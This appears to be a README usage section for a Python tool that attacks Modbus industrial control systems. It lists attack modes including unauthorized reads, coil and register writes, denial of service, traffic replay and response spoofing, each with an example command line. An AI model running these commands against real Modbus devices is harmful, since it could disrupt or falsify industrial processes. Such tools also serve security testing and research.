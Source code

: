 ![Help Output](assets/matrix_help_output.png)

Basic usage:
```
python matrix.py -H <target_ip> -p <port> -a <attack_type>
```

Attack types:
- `read`: Unauthorized read operation
- `coil`: Coil register write attack
- `register`: Holding register write attack
- `overflow`: Register overflow attack
- `dos`: Denial of Service attack
- `replay`: Traffic replay attack
- `spoof`: Response spoofing attack

### Examples

Perform unauthorized read on a local Modbus server:
```
python matrix.py -H localhost -p 502 -a read
```

Launch DoS attack with 50 threads:
```
python matrix.py -H 192.168.1.10 -p 502 -a dos -t 50
```

Replay Modbus traffic from a PCAP file:
```
python matrix.py -H 192.168.1.10 -p 502 -a replay -f captured_traffic.pcap
```

Spoof Modbus responses:
```
python matrix.py -H 192.168.1.10 -p 502 -a spoof -s 192.168.1.20 -i docker0
```
